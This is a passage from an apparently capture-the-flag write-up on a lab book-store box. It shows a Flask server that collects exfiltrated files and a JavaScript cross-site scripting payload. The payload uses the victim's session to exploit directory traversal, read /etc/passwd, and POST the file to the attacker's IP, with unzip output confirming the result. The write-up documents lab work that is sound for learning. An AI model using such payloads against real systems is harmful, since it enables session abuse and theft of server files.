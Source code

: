     if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)



This is a simple Python Flask server that will save any file sent to
`/exfil` to a file in the `exfil` directory as a Zip.

Now I can run the same get for two PDFs above and get a ZIP:



    oxdf@hacky$ file exfil/exfil.zip 
    exfil/exfil.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
    oxdf@hacky$ unzip -l exfil/exfil.zip 
    Archive:  exfil/exfil.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
         1001  2023-01-30 19:51   Through the Looking-Glass.pdf
    ---------                     -------
         2007                     2 files



#### Directory Traversal

Thinking about how the server is working, likely these e-books are
stored on the file system. It's worth looking at the download requests
to see if I can read other files off the file system.

Trying the single download doesn't seem to work. I just get nothing
back. I'll look at this in [Beyond Root](#beyond-root). I'll try this
payload to do a directory traversal in the multi-file download:



    fetch('/profile', {credentials: 'include'})
    .then((resp) => resp.text())
    .then((resptext) => {
      order_id = resptext.match(/\/order\/(\d+)/);
      fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../../../../etc/passwd", {credentials: 'include'})
      .then((resp2) => resp2.blob())
      .then((data) => {
        fetch("http://10.10.14.6/exfil", { 
          method: "POST",
          mode: 'no-cors',
          body: data
        });
      });
    });



When it returns, there's a `Unknown.pdf` in the zip:



    oxdf@hacky$ unzip -l exfil/exfil.zip 
    Archive:  exfil/exfil.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
         2087  2023-06-05 20:53   Unknown.pdf
    ---------                     -------
         3093                     2 files
